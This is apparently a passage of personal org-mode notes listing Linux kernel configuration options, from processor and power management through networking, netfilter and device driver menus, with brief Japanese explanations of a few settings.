     | Support for hot-pluggable CPUs                                   |                                                                                           |
     | Set default setting of cpu0_hotpluggable                         |                                                                                           |
     | Debug CPU0 hotplug                                               |                                                                                           |
     | Disable the 32-bit vDSO (needed for glibc 2.3.3)                 |                                                                                           |
     | Built-in kernel command line                                     |                                                                                           |

**** Linux guest support

**** Processor family (Pentium-Pro)
     | 486                                                |   |
     | 586/K5/5x86/6x86/6x86MX                            |   |
     | Pentium-Classic                                    |   |
     | Pentium-MMX                                        |   |
     | Pentium-Pro                                        |   |
     | Pentium-II/Celeron (pre-Coppermine                  |   |
     | Pentium-III/Celeron (Coppermine)/Pentium-III Xeon   |   |
     | Pentium M                                          |   |
     | Pentium-4/Celeron (P4-based)/Pentium-4 M/older Xeon |   |
     | K6/K6-II/K6-III                                    |   |
     | Athlon/Duron/K7                                    |   |
     | Opteron/Athlon64/Hammer/K8                         |   |
     | Crusoe                                             |   |
     | Efficeon                                           |   |
     | Winchip-C6                                         |   |
     | Winchip-2/Winchip-2A/Winchip-                      |   |
     | AMD Elan                                           |   |
     | GeodeGX1                                           |   |
     | Geode GX/LX                                        |   |
     | CyrixIII/VIA-C3                                    |   |
     | VIA C3-2 (Nehemiah)                                |   |
     | VIA C7                                             |   |
     | Core 2/newer Xeon                                  |   |
     | Intel Atom                                         |   |

**** Preemption Model (Preemptible Kernel (Low-Latency Desktop))
     プロセス実行中に CPU を横取りして，ほかのプロセスに割り当
     てるか否かの設定。
     | No Forced Preemption (Server)            | CPU の横取りをしない                     |
     | Voluntary Kernel Preemption (Desktop)    | 特定ポイントだけ CPU の横取りを可能にする |
     | Preemptible Kernel (Low-Latency Desktop) | すべての処理で CPU の横取りを可能にする   |

**** High Memory Support (64GB)
     | off  |   |
     | 4GB  |   |
     | 64GB |   |

**** Memory model (Discontiguous Memory)
     | Discontiguous Memory |   |
     | Sparse Memory        |   |

**** Transparent Hugepage Support sysfs defaults (madvise)
     | always  |   |
     | madvise |   |
   
**** Timer frequency (1000 HZ)
     | 100 HZ  |   |
     | 250 HZ  |   |
     | 300 HZ  |   |
     | 1000 HZ |   |

*** Power management and ACPI options
    | Suspend to RAM and standby                                   |             |
    | Hibernation (aka 'suspend to disk')                          |             |
    | Default resume partition                                     |             |
    | Opportunistic sleep                                          | for android |
    | User space wakeup sources interface                          |             |
    | Device power management core functionality                   |             |
    | Power Management Debug Support                               |             |
    | Extra PM attributes in sysfs for low-level debugging/testing |             |
    | Test suspend/resume and wakealarm during bootup              |             |
    | Device suspend/resume watchdog                               |             |
    | Suspend/resume event tracing                                 |             |
    | Enable workqueue power-efficient mode by default             |             |
    | Cpuidle Driver for Intel Processors                          |             |

**** ACPI (Advanced Configuration and Power Interface) Support
     | Deprecated power /proc/acpi directories                    |                                                            |
     | Allow supported ACPI revision to be overriden              |                                                            |
     | EC read/write access through /sys/kernel/debug/ec          |                                                            |
     | AC Adapter                                                 | このドライバは AC アダプタオブジェクトのサポートの追加で、 |
     |                                                            | システムが AC 電源につながっているかどうかわかります。一般 |
     |                                                            | に、デスクトップは常に AC につながっているので、ラップトッ |
     |                                                            | プのみがこのオブジェクトを使います                         |
     | Battery                                                    | バッテリーの情報をサポートする。/proc/acpi/battery         |
     | Button                                                     | パワーボタンの振る舞いをサポート                           |
     | Video                                                      |                                                            |
     | Fan                                                        |                                                            |
     | Dock                                                       |                                                            |
     | Processor                                                  |                                                            |
     | IPMI                                                       |                                                            |
     | Processor Aggregator                                       |                                                            |
     | Thermal Zone                                               |                                                            |
     | NUMA support                                               |                                                            |
     | ACPI tables override via initrd                            | ブート時に BIOS の ACPI テーブルを上書きしてくれる         |
     | Debug Statements                                           |                                                            |
     | PCI slot detection driver                                  |                                                            |
     | Container and Module Devices                               |                                                            |
     | Smart Battery System                                       |                                                            |
     | Hardware Error Device                                      |                                                            |
     | Boottime Graphics Resource Table support                   |                                                            |
     | ACPI NVDIMM Firmware Interface Table (NFIT)                |                                                            |
     | ACPI Platform Error Interface (APEI)                       |                                                            |
     | APEI Generic Hardware Error Source                         |                                                            |
     | APEI PCIe AER logging/recovering support                   |                                                            |
     | APEI memory error recovering support                       |                                                            |
     | APEI Error Record Serialization Table (ERST) Debug Support |                                                            |
     | Extended Error Log support                                 |                                                            |
   
***** PMIC (Power Management Integrated Circuit) operation region support
   
**** SFI (Simple Firmware Interface) Support

**** APM (Advanced Power Management) BIOS support
     CPU が BIOS に "今はたいしたことをしていないから、 BIOS
     自身で電力節減に努め なさい"という指令を伝えられるようになる
     ということだけです。
     CPU のクロッ クを遅くする、ハードディスクの回転を止める、ディスプレーのバックライトを 消す等は BIOS の仕事

     *要実験　 suspend  hibernation*
     | Ignore USER SUSPEND                    |   |
     | Enable PM at boot time                 |   |
     | Make CPU Idle calls when idle          |   |
     | Enable console blanking using APM      |   |
     | Allow interrupts during APM BIOS calls |   |

**** CPU Frequency scaling
     | CPU Frequency scaling                                   |                                                                                                          |
     | CPU frequency translation statistics                    |                                                                                                          |
     | CPU frequency translation statistics details            |                                                                                                          |
     | 'performance' governor                                  |                                                                                                          |
     | 'powersave' governor                                    |                                                                                                          |
     | 'userspace' governor for userspace frequency scaling    |                                                                                                          |
     | 'ondemand' cpufreq policy governor                      |                                                                                                          |
     | 'conservative' cpufreq governor                         |                                                                                                          |
     | Intel P state control                                   |                                                                                                          |
     | Processor Clocking Control interface driver             |                                                                                                          |
     | ACPI Processor P-States driver                          | CPU のクロック周波数とともに電圧も低くなり、パフォーマンスの低下により電力消費と発生熱量が低くなります。 |
     | Legacy cpb sysfs knob support for AMD CPUs              |                                                                                                          |
     | AMD Mobile K6-2/K6-3 PowerNow!                          |                                                                                                          |
     | AMD Mobile Athlon/Duron PowerNow!                       |                                                                                                          |
     | AMD Opteron/Athlon64 PowerNow!                          |                                                                                                          |
     | AMD frequency sensitivity feedback powersave bias       |                                                                                                          |
     | Cyrix MediaGX/NatSemi Geode Suspend Modulation          |                                                                                                          |
     | Intel Enhanced SpeedStep (deprecated)                   |                                                                                                          |
     | Built-in tables for Banias CPUs                         |                                                                                                          |
     | Intel Speedstep on ICH-M chipsets (ioport interface)    |                                                                                                          |
     | Intel SpeedStep on 440BX/ZX/MX chipsets (SMI interface) |                                                                                                          |
     | Intel Pentium 4 clock modulation                        | CPU のクロック周波数は低くなりますが、電圧は低下しません。                                               |
     | nVidia nForce2 FSB changing                             |                                                                                                          |
     | Transmeta LongRun                                       |                                                                                                          |
     | VIA Cyrix III Longhaul                                  |                                                                                                          |
     | VIA C7 Enhanced PowerSaver (DANGEROUS)                  |                                                                                                          |
     | Relaxed speedstep capability checks                     |                                                                                                          |

***** Default CPUFreq governor (ondemand)
      | performance  |   |
      | powersave    |   |
      | userspace    |   |
      | ondemand     |   |
      | conservative |   |

**** CPU Idle
     | Ladder governor (for periodic timer tick) |   |
     | Menu governor (for tickless system)       |   |
  
*** Bus options (PCI etc.)
    | PCI support                                                  |                                              |
    | PCI Express Port Bus support                                 |                                              |
    | PCI Express Hotplug driver                                   |                                              |
    | Root Port Advanced Error Reporting support                   |                                              |
    | PCI Express ECRC settings control                            |                                              |
    | PCIe AER error injector support                              |                                              |
    | PCI Express ASPM control                                     |                                              |
    | Debug PCI Express ASPM                                       |                                              |
    | Message Signaled Interrupts (MSI and MSI-X)                  |                                              |
    | Enable PCI resource re-allocation detection                  |                                              |
    | PCI Stub driver                                              |                                              |
    | Interrupts on hypertransport devices                         |                                              |
    | PCI IOV support                                              | 1 つの物理ポートを複数の仮想マシンと共有でき |
    | PCI PRI support                                              |                                              |
    | PCI PASID support                                            |                                              |
    | ISA support                                                  |                                              |
    | EISA support                                                 |                                              |
    | NatSemi SCx200 support                                       |                                              |
    | NatSemi SCx200 27MHz High-Resolution Timer Support           |                                              |
    | PCEngines ALIX System Support (LED setup)                    |                                              |
    | Soekris Engineering net5501 System Support (LEDS, GPIO, etc) |                                              |
    | Traverse Technologies GEOS System Support (LEDS, GPIO, etc)  |                                              |
    | RapidIO support                                              |                                              |
    | Mark VGA/VBE/EFI FB as generic system framebuffer            |                                              |

**** PCI access mode (Any)
     | BIOS     |   |
     | MMConfig |   |
     | Direct   |   |
     | Any      |   |

**** Default ASPM policy (BIOS default)
     | BIOS default |   |
     | Powersave    |   |
     | Performance  |   |

**** PCI host controller drivers

**** PCCard (PCMCIA/CardBus) support
     | 16-bit PCMCIA support                   |   |
     | Load CIS updates from userspace         |   |
     | 32-bit CardBus support                  |   |
     | CardBus yenta-compatible bridge support |   |
     | Cirrus PD6729 compatible bridge support |   |
     | i82092 compatible bridge support        |   |
     | i82365 compatible bridge support        |   |
     | Databook TCIC host bridge support       |   |
  
**** Support for PCI Hotplug
     | Compaq PCI Hotplug driver                       |   |
     | Save configuration into NVRAM on Compaq servers |   |
     | IBM PCI Hotplug driver                          |   |
     | ACPI PCI Hotplug driver                         |   |
     | ACPI PCI Hotplug driver IBM extensions          |   |
     | CompactPCI Hotplug driver                       |   |
     | Ziatech ZT5550 CompactPCI Hotplug driver        |   |
     | Generic port I/O CompactPCI Hotplug driver      |   |
     | SHPC PCI Hotplug driver                         |   |

*** Executable file formats / Emulations
     | Kernel support for ELF binaries             |                                               |
     | Write ELF core dumps with partial segments  |                                               |
     | Kernel support for scripts starting with #! |                                               |
     | Kernel support for a.out and ECOFF binaries |                                               |
     | Kernel support for MISC binaries            |                                               |
     | Enable core dump support                    | ELF 形式のコア・ダンプを作成する機能を提供する |

*** Networking support

    | RxRPC session sockets                  |   |
    | Ceph core library                      |   |
    | Include file:line in ceph debug output |   |
    | Use in-kernel support for DNS lookup   |   |

**** Networking options
     | Packet socket                                         |   |
     | Packet: sockets monitoring interface                  |   |
     | Unix domain sockets                                   |   |
     | UNIX: socket monitoring interface                     |   |
     | Transformation user configuration interface           |   |
     | Transformation sub policy support                     |   |
     | Transformation migrate database                       |   |
     | Transformation statistics                             |   |
     | PF_KEY sockets                                        |   |
     | PF_KEY MIGRATE                                        |   |
     | TCP/IP networking                                     |   |
     | IP: multicasting                                      |   |
     | IP: advanced router                                   |   |
     | FIB TRIE statistics                                   |   |
     | IP: policy routing                                    |   |
     | IP: equal cost multipath                              |   |
     | IP: verbose route monitoring                          |   |
     | IP: kernel level autoconfiguration                    |   |
     | IP: tunneling                                         |   |
     | IP: GRE demultiplexer                                 |   |
     | IP: GRE tunnels over IP                               |   |
     | IP: broadcast GRE over IP                             |   |
     | IP: multicast routing                                 |   |
     | IP: multicast policy routing                          |   |
     | IP: PIM-SM version 1 support                          |   |
     | IP: PIM-SM version 2 support                          |   |
     | IP: TCP syncookie support                             |   |
     | Virtual (secure) IP: tunneling                        |   |
     | IP: Foo (IP protocols) over UDP                       |   |
     | IP: FOU encapsulation of IP tunnels                   |   |
     | Generic Network Virtualization Encapsulation library  |   |
     | IP: AH transformation                                 |   |
     | IP: ESP transformation                                |   |
     | IP: IPComp transformation                             |   |
     | IP: IPsec transport mode                              |   |
     | IP: IPsec tunnel mode                                 |   |
     | IP: IPsec BEET mode                                   |   |
     | Large Receive Offload (ipv4/tcp)                      |   |
     | INET: socket monitoring interface                     |   |
     | UDP: socket monitoring interface                      |   |
     | TCP: MD5 Signature Option support (RFC2385)           |   |
     | NetLabel subsystem support                            |   |
     | Security Marking                                      |   |
     | Timestamping in PHY devices                           |   |
     | The RDS Protocol                                      |   |
     | Asynchronous Transfer Mode (ATM)                      |   |
     | Classical IP over ATM                                 |   |
     | Do NOT send ICMP if no neighbour                      |   |
     | LAN Emulation (LANE) support                          |   |
     | Multi-Protocol Over ATM (MPOA) support                |   |
     | RFC1483/2684 Bridged protocols                        |   |
     | Per-VC IP filter kludge                               |   |
     | 802.1d Ethernet Bridging                              |   |
     | IGMP/MLD snooping                                     |   |
     | VLAN filtering                                        |   |
     | 802.1Q/802.1ad VLAN Support                           |   |
     | GVRP (GARP VLAN Registration Protocol) support        |   |
     | MVRP (Multiple VLAN Registration Protocol) support    |   |
     | DECnet Support                                        |   |
     | DECnet: router support                                |   |
     | ANSI/IEEE 802.2 LLC type 2 Support                    |   |
     | The IPX protocol                                      |   |
     | IPX: Full internal IPX network                        |   |
     | Appletalk protocol support                            |   |
     | Appletalk interfaces support                          |   |
     | Apple/Farallon LocalTalk PC support                   |   |
     | COPS LocalTalk PC support                             |   |
     | Appletalk-IP driver support                           |   |
     | IP to Appletalk-IP Encapsulation support              |   |
     | CCITT X.25 Packet Layer                               |   |
     | LAPB Data Link Driver                                 |   |
     | Phonet protocols family                               |   |
     | Data Center Bridging support                          |   |
     | DNS Resolver support                                  |   |
     | B.A.T.M.A.N. Advanced Meshing Protocol                |   |
     | Bridge Loop Avoidance                                 |   |
     | Distributed ARP Table                                 |   |
     | Network Coding                                        |   |
     | Multicast optimisation                                |   |
     | Open vSwitch                                          |   |
     | Open vSwitch GRE tunneling support                    |   |
     | Virtual Socket protocol                               |   |
     | VMware VMCI transport for Virtual Sockets             |   |
     | NETLINK: mmaped IO                                    |   |
     | NETLINK: socket monitoring interface                  |   |
     | High-availability Seamless Redundancy (HSR)           |   |
     | Switch (and switch-ish) device support (EXPERIMENTAL) |   |
     | Network priority cgroup                               |   |
     | Network classid cgroup                                |   |

***** TCP: advanced congestion control
     | Binary Increase Congestion (BIC) control |   |
     | CUBIC TCP                                |   |
     | TCP Westwood+                            |   |
     | H-TCP                                    |   |
     | High Speed TCP                           |   |
     | TCP-Hybla congestion control algorithm   |   |
     | TCP Vegas                                |   |
     | Scalable TCP                             |   |
     | TCP Low Priority                         |   |
     | TCP Veno                                 |   |
     | YeAH TCP                                 |   |
     | TCP Illinois                             |   |
     | DataCenter TCP (DCTCP)                   |   |
     | CAIA Delay-Gradient (CDG)                |   |

****** Default TCP congestion control (Cubic)
     | Cubic |   |
     | Reno  |   |

***** The IPv6 protocol
***** Network packet filtering framework (Netfilter)
      | Network packet filtering debugging |   |
      | Advanced netfilter configuration   |   |
      | Bridged IP/ARP packets filtering   |   |

****** Core Netfilter Configuration
       | Netfilter NFACCT over NFNETLINK interface             |   |
       | Netfilter NFQUEUE over NFNETLINK interface            |   |
       | Netfilter LOG over NFNETLINK interface                |   |
       | Netfilter connection tracking support                 |   |
       | Connection mark tracking support                      |   |
       | Connection tracking security mark support             |   |
       | Connection tracking zones                             |   |
       | Supply CT list in procfs (OBSOLETE)                   |   |
       | Connection tracking events                            |   |
       | Connection tracking timeout                           |   |
       | Connection tracking timestamping                      |   |
       | DCCP protocol connection tracking support             |   |
       | SCTP protocol connection tracking support             |   |
       | UDP-Lite protocol connection tracking support         |   |
       | Amanda backup protocol support                        |   |
       | FTP protocol support                                  |   |
       | H.323 protocol support                                |   |
       | IRC protocol support                                  |   |
       | NetBIOS name service protocol support                 |   |
       | SNMP service protocol support                         |   |
       | PPtP protocol support                                 |   |
       | SANE protocol support                                 |   |
       | SIP protocol support                                  |   |
       | TFTP protocol support                                 |   |
       | Connection tracking netlink interface                 |   |
       | Connection tracking timeout tuning via Netlink        |   |
       | Connection tracking helpers in user-space via Netlink |   |
       | NFQUEUE integration with Connection Tracking          |   |
       | IPv4/IPv6 redirect support                            |   |
       | Netfilter nf_tables support                           |   |
       | Netfilter Xtables support (required for ip_tables)    |   |
       | *** Xtables combined modules ***                      |   |
       | nfmark target and match support                       |   |
       | ctmark target and match support                       |   |
       | set target and match support                          |   |
       | *** Xtables targets ***                               |   |
       | AUDIT target support                                  |   |
       | CHECKSUM target support                               |   |
       | "CLASSIFY" target support                             |   |
       | "CONNMARK" target support                             |   |
       | "CONNSECMARK" target support                          |   |
       | "CT" target support                                   |   |
       | "DSCP" and "TOS" target support                       |   |
       | "HL" hoplimit target support                          |   |
       | "HMARK" target support                                |   |
       | IDLETIMER target support                              |   |
       | "LED" target support                                  |   |
       | LOG target support                                    |   |
       | "MARK" target support                                 |   |
       | "SNAT and DNAT" targets support                       |   |
       | "NETMAP" target support                               |   |
       | "NFLOG" target support                                |   |
       | "NFQUEUE" target Support                              |   |
       | "NOTRACK" target support (DEPRECATED)                 |   |
       | "RATEEST" target support                              |   |
       | REDIRECT target support                               |   |
       | "TEE" - packet cloning to alternate destination       |   |
       | "TPROXY" target transparent proxying support          |   |
       | "TRACE" target support                                |   |
       | "SECMARK" target support                              |   |
       | "TCPMSS" target support                               |   |
       | "TCPOPTSTRIP" target support                          |   |
       | *** Xtables matches ***                               |   |
       | "addrtype" address type match support                 |   |
       | "bpf" match support                                   |   |
       | "control group" match support                         |   |
       | "cluster" match support                               |   |
       | "comment" match support                               |   |
       | "connbytes" per-connection counter match support      |   |
       | "connlabel" match support                             |   |
       | "connlimit" match support                             |   |
       | "connmark" connection mark match support              |   |
       | "conntrack" connection tracking match support         |   |
       | "cpu" match support                                   |   |
       | "dccp" protocol match support                         |   |
       | "devgroup" match support                              |   |
       | "dscp" and "tos" match support                        |   |
       | "ecn" match support                                   |   |
       | "esp" match support                                   |   |
       | "hashlimit" match support                             |   |
       | "helper" match support                                |   |
       | "hl" hoplimit/TTL match support                       |   |
       | "ipcomp" match support                                |   |
       | "iprange" address range match support                 |   |
       | "ipvs" match support                                  |   |
       | "l2tp" match support                                  |   |
       | "length" match support                                |   |
       | "limit" match support                                 |   |
       | "mac" address match support                           |   |
       | "mark" match support                                  |   |
       | "multiport" Multiple port match support               |   |
       | "nfacct" match support                                |   |
       | "osf" Passive OS fingerprint match                    |   |
       | "owner" match support                                 |   |
       | IPsec "policy" match support                          |   |
       | "physdev" match support                               |   |
       | "pkttype" packet type match support                   |   |
       | "quota" match support                                 |   |
       | "rateest" match support                               |   |
       | "realm" match support                                 |   |
       | "recent" match support                                |   |
       | "sctp" protocol match support                         |   |
       | "socket" match support                                |   |
       | "state" match support                                 |   |
       | "statistic" match support                             |   |
       | "string" match support                                |   |
       | "tcpmss" match support                                |   |
       | "time" match support                                  |   |
       | "u32" match support                                   |   |

****** IP set support
       | Maximum number of IP sets     |   |
       | bitmap:ip set support         |   |
       | bitmap:ip,mac set support     |   |
       | bitmap:port set support       |   |
       | hash:ip set support           |   |
       | hash:ip,mark set support      |   |
       | hash:ip,port set support      |   |
       | hash:ip,port,ip set support   |   |
       | hash:ip,port,net set support  |   |
       | hash:mac set support          |   |
       | hash:net,port,net set support |   |
       | hash:net set support          |   |
       | hash:net,net set support      |   |
       | hash:net,port set support     |   |
       | hash:net,iface set support    |   |
       | list:set set support          |   |
  
****** IP virtual server support
       | IP virtual server debugging                                 |   |
       | IPVS connection table size (the Nth power of 2)             |   |
       | TCP load balancing support                                  |   |
       | UDP load balancing support                                  |   |
       | ESP load balancing support                                  |   |
       | AH load balancing support                                   |   |
       | SCTP load balancing support                                 |   |
       | round-robin scheduling                                      |   |
       | weighted round-robin scheduling                             |   |
       | least-connection scheduling                                 |   |
       | weighted least-connection scheduling                        |   |
       | weighted failover scheduling                                |   |
       | locality-based least-connection scheduling                  |   |
       | locality-based least-connection with replication scheduling |   |
       | destination hashing scheduling                              |   |
       | source hashing scheduling                                   |   |
       | shortest expected delay scheduling                          |   |
       | never queue scheduling                                      |   |
       | IPVS source hashing table size (the Nth power of 2)         |   |
       | FTP protocol helper                                         |   |
       | Netfilter connection tracking                               |   |
       | SIP persistence engine                                      |   |

****** IP: Netfilter Configuration
       | proc/sysctl compatibility with old connection tracking |   |
       | ARP packet logging                                     |   |
       | IPv4 packet logging                                    |   |
       | IPv4 packet rejection                                  |   |
       | IPv4 NAT                                               |   |
       | IPv4 masquerade support                                |   |
       | Basic SNMP-ALG support                                 |   |
       | IP tables support (required for filtering/masq/NAT)    |   |
       | "ah" match support                                     |   |
       | "ecn" match support                                    |   |
       | "rpfilter" reverse path filter match support           |   |
       | "ttl" match support                                    |   |
       | Packet filtering                                       |   |
       | REJECT target support                                  |   |
       | SYNPROXY target support                                |   |
       | iptables NAT support                                   |   |
       | Packet mangling                                        |   |
       | CLUSTERIP target support                               |   |
       | ECN target support                                     |   |
       | "TTL" target support                                   |   |
       | raw table support (required for NOTRACK/TRACE)         |   |
       | Security table                                         |   |
       | ARP tables support                                     |   |
       | ARP packet filtering                                   |   |
       | ARP payload mangling                                   |   |

****** DECnet: Netfilter Configuration
       | Routing message grabulator (for userland routing daemon) |   |

****** Ethernet Bridge tables (ebtables) support
       | ebt: broute table support       |   |
       | ebt: filter table support       |   |
       | ebt: nat table support          |   |
       | ebt: 802.3 filter support       |   |
       | ebt: among filter support       |   |
       | ebt: ARP filter support         |   |
       | ebt: IP filter support          |   |
       | ebt: limit match support        |   |
       | ebt: mark filter support        |   |
       | ebt: packet type filter support |   |
       | ebt: STP filter support         |   |
       | ebt: 802.1Q VLAN filter support |   |
       | ebt: arp reply target support   |   |
       | ebt: dnat target support        |   |
       | ebt: mark target support        |   |
       | ebt: redirect target support    |   |
       | ebt: snat target support        |   |
       | ebt: log support                |   |
       | ebt: nflog support              |   |
  
***** The DCCP Protocol
***** The SCTP Protocol
      | SCTP: Association probing                                   |   |
      | SCTP: Debug object counts                                   |   |
      | Default SCTP cookie HMAC encoding (Enable optional MD5 hmac |   |
      | Enable optional MD5 hmac cookie generation                  |   |
      | Enable optional SHA1 hmac cookie generation                 |   |

***** The TIPC Protocol
***** Layer Two Tunneling Protocol (L2TP)
      | L2TPv3 support |   |

***** IEEE Std 802.15.4 Low-Rate Wireless Personal Area Networks support
***** QoS and/or fair queueing
      | Class Based Queueing (CBQ)                                |   |
      | Hierarchical Token Bucket (HTB)                           |   |
      | Hierarchical Fair Service Curve (HFSC)                    |   |
      | ATM Virtual Circuits (ATM)                                |   |
      | Multi Band Priority Queueing (PRIO)                       |   |
      | Hardware Multiqueue-aware Multi Band Queuing (MULTIQ)     |   |
      | Random Early Detection (RED)                              |   |
      | Stochastic Fair Blue (SFB)                                |   |
      | Stochastic Fairness Queueing (SFQ)                        |   |
      | True Link Equalizer (TEQL)                                |   |
      | Token Bucket Filter (TBF)                                 |   |
      | Generic Random Early Detection (GRED)                     |   |
      | Differentiated Services marker (DSMARK)                   |   |
      | Network emulator (NETEM)                                  |   |
      | Deficit Round Robin scheduler (DRR)                       |   |
      | Multi-queue priority scheduler (MQPRIO)                   |   |
      | CHOose and Keep responsive flow scheduler (CHOKE)         |   |
      | Quick Fair Queueing scheduler (QFQ)                       |   |
      | Controlled Delay AQM (CODEL)                              |   |
      | Fair Queue Controlled Delay AQM (FQ_CODEL)                |   |
      | Fair Queue                                                |   |
      | Heavy-Hitter Filter (HHF)                                 |   |
      | Proportional Integral controller Enhanced (PIE) scheduler |   |
      | Ingress Qdisc                                             |   |
      | Plug network traffic until release (PLUG)                 |   |
      | *** Classification ***                                    |   |
      | Elementary classification (BASIC)                         |   |
      | Traffic-Control Index (TCINDEX)                           |   |
      | Routing decision (ROUTE)                                  |   |
      | Netfilter mark (FW)                                       |   |
      | Universal 32bit comparisons w/ hashing (U32)              |   |
      | Performance counters support                              |   |
      | Netfilter marks support                                   |   |
      | IPv4 Resource Reservation Protocol (RSVP)                 |   |

***** MultiProtocol Label Switching
      | MPLS: GSO support     |   |
      | MPLS: routing support |   |

***** Network testing
      | Packet Generator (USE WITH CAUTION) |   |
      | TCP connection probing              |   |

**** Amateur Radio support
     | Amateur Radio AX.25 Level 2 protocol |   |
     | AX.25 DAMA Slave support             |   |
     | Amateur Radio NET/ROM protocol       |   |
     | Amateur Radio X.25 PLP (Rose)        |   |
     
***** AX.25 network device drivers
      | Serial port 6PACK driver                              |   |
      | BPQ Ethernet driver                                   |   |
      | Z8530 SCC driver                                      |   |
      | additional delay for PA0HZP OptoSCC compatible boards |   |
      | support for TRX that feedback the tx signal to rx     |   |
      | BAYCOM ser12 fullduplex driver for AX.25              |   |
      | BAYCOM ser12 halfduplex driver for AX.25              |   |
      | BAYCOM picpar and par96 driver for AX.25              |   |
      | BAYCOM epp driver for AX.25                           |   |
      | YAM driver for AX.25                                  |   |

**** CAN bus subsystem support
     | Raw CAN Protocol (raw access with CAN-ID filtering)     |   |
     | Broadcast Manager CAN Protocol (with content filtering) |   |
     | CAN Gateway/Router (with netlink configuration)         |   |

***** CAN Device Drivers
      | Virtual Local CAN Interface (vcan)            |   |
      | Serial / USB serial CAN Adaptors (slcan)      |   |
      | Platform CAN drivers with Netlink support     |   |
      | CAN bit-timing calculation                    |   |
      | Enable LED triggers for Netlink based drivers |   |
      | Intel EG20T PCH CAN controller                |   |
      | Bosch M_CAN devices                           |   |
      | Softing Gmbh CAN generic support              |   |
      | Softing Gmbh CAN pcmcia cards                 |   |
      | CAN devices debugging messages                |   |
                     
****** Philips/NXP SJA1000 devices
      | ISA Bus based legacy SJA1000 driver        |   |
      | Generic Platform Bus based SJA1000 driver  |   |
      | EMS CPC-CARD Card                          |   |
      | EMS CPC-PCI, CPC-PCIe and CPC-104P Card    |   |
      | PEAK PCAN-PC Card                          |   |
      | PEAK PCAN-PCI/PCIe/miniPCI Cards           |   |
      | PEAK PCAN-ExpressCard Cards                |   |
      | Kvaser PCIcanx and Kvaser PCIcan PCI Cards |   |
      | PLX90xx PCI-bridge based Cards             |   |
      | TS-CAN1 PC104 boards                       |   |

****** Bosch C_CAN/D_CAN devices

****** Bosch CC770 and Intel AN82527 devices
      | ISA Bus based legacy CC770 driver       |   |
      | Generic Platform Bus based CC770 driver |   |

****** CAN SPI interfaces
      | Microchip MCP251x SPI CAN controllers |   |

****** CAN USB interfaces
      | EMS CPC-USB/ARM7 CAN/USB interface                   |   |
      | ESD USB/2 CAN/USB interface                          |   |
      | Geschwister Schneider UG interfaces                  |   |
      | Kvaser CAN/USB interface                             |   |
      | PEAK PCAN-USB/USB Pro interfaces for CAN 2.0b/CAN-FD |   |
      | 8 devices USB2CAN interface                          |   |
  
**** IrDA (infrared) subsystem support
     |IrLAN protocol ||
     |IrNET protocol ||
     |IrCOMM protocol ||
     |Ultra (connectionless) protocol ||
     |Cache last LSAP ||
     |Fast RRs (low latency) ||
     |Debug information ||
***** Infrared-port device drivers
      | IrTTY (uses Linux serial driver)        |   |
      | Serial dongle support                   |   |
      | ESI JetEye PC dongle                    |   |
      | ACTiSYS IR-220L and IR220L+ dongle      |   |
      | Tekram IrMate 210B dongle               |   |
      | TOIM3232 IrDa dongle                    |   |
      | Parallax LiteLink dongle                |   |
      | Mobile Action MA600 dongle              |   |
      | Greenwich GIrBIL dongle                 |   |
      | Microchip MCP2120                       |   |
      | Old Belkin dongle                       |   |
      | ACTiSYS IR-200L dongle                  |   |
      | KingSun/DonShine DS-620 IrDA-USB dongle |   |
      | KingSun Dazzle IrDA-USB dongle          |   |
      | KingSun KS-959 IrDA-USB dongle          |   |
      | IrDA USB dongles                        |   |
      | SigmaTel STIr4200 bridge                |   |
      | NSC PC87108/PC87338                     |   |
      | Winbond W83977AF (IR)                   |   |
      | Toshiba Type-O IR Port                  |   |
      | SMSC IrCC                               |   |
      | ALi M5123 FIR                           |   |
      | VLSI 82C147 SIR/MIR/FIR                 |   |
      | VIA VT8231/VT1211 SIR/MIR/FIR           |   |
      | MosChip MCS7780 IrDA-USB dongle         |   |

**** Bluetooth subsystem support
     | Bluetooth Classic (BR/EDR) features |   |
     | RFCOMM protocol support             |   |
     | RFCOMM TTY support                  |   |
     | BNEP protocol support               |   |
     | Multicast filter support            |   |
     | Protocol filter support             |   |
     | CMTP protocol support               |   |
     | HIDP protocol support               |   |
     | Bluetooth Low Energy (LE) features  |   |

**** Bluetooth device drivers
     | HCI USB driver                        |   |
     | Broadcom protocol support             |   |
     | Realtek protocol support              |   |
     | HCI SDIO driver                       |   |
     | HCI UART driver                       |   |
     | UART (H4) protocol support            |   |
     | BCSP protocol support                 |   |
     | Atheros AR300x serial support         |   |
     | HCILL protocol support                |   |
     | Three-wire UART (H5) protocol support |   |
     | Intel protocol support                |   |
     | Broadcom protocol support             |   |
     | HCI BCM203x USB driver                |   |
     | HCI BPA10x USB driver                 |   |
     | HCI BlueFRITZ! USB driver             |   |
     | HCI DTL1 (PC Card) driver             |   |
     | HCI BT3C (PC Card) driver             |   |
     | HCI BlueCard (PC Card) driver         |   |
     | HCI UART (PC Card) device driver      |   |
     | HCI VHCI (Virtual HCI device) driver  |   |
     | Marvell Bluetooth driver support      |   |
     | Marvell BT-over-SDIO driver           |   |
     | Atheros firmware download driver      |   |

**** Wireless
     | cfg80211 - wireless configuration API                 |   |
     | nl80211 testmode command                              |   |
     | enable developer warnings                             |   |
     | cfg80211 regulatory debugging                         |   |
     | enable powersave by default                           |   |
     | lib80211 debugging messages                           |   |
     | Generic IEEE 802.11 Networking Stack (mac80211)       |   |
     | Enable mac80211 mesh networking (pre-802.11s) support |   |
     | Enable LED triggers                                   |   |
     | Trace all mac80211 debug messages                     |   |

***** Default rate control algorithm (Minstrel)
***** Select mac80211 debugging features

**** WiMAX Wireless Broadband support
     | WiMAX debug level |   |

**** RF switch subsystem support
     | Generic rfkill regulator driver |   |
     | GPIO RFKILL driver              |   |

**** Plan 9 Resource Sharing Support (9P2000)
     | 9P RDMA Transport (Experimental) |   |
     | Debug information                |   |

**** CAIF support

**** NFC subsystem support
     | NFC Digital Protocol stack support |   |
     | NCI protocol support               |   |
     | NCI over SPI protocol support      |   |
     | NCI over UART protocol support     |   |
     | NFC HCI implementation             |   |

***** Near Field Communication (NFC) devices
     | NXP PN533 USB driver                 |   |
     | NFC hardware simulator driver        |   |
     | Marvell NFC driver support           |   |
     | STMicroelectronics ST NCI NFC driver |   |
     | NXP-NCI NFC driver                   |   |
                                 
*** Device Drivers

**** Generic Driver Options
     | Select only drivers that don't need compile-time external firmware | 外部ファームウェアを必要としないドライバのみ選択可能とする                           |
     | Prevent firmware from being built                                  | ファームウェアのコンパイルを避ける (ファームウェアは通常ドライバと共に提供されている) |
     | Driver Core verbose debug messages                                 | デバッグメッセージを出力する                                                         |
     |                                                                    |                                                                                      |

**** Bus devices

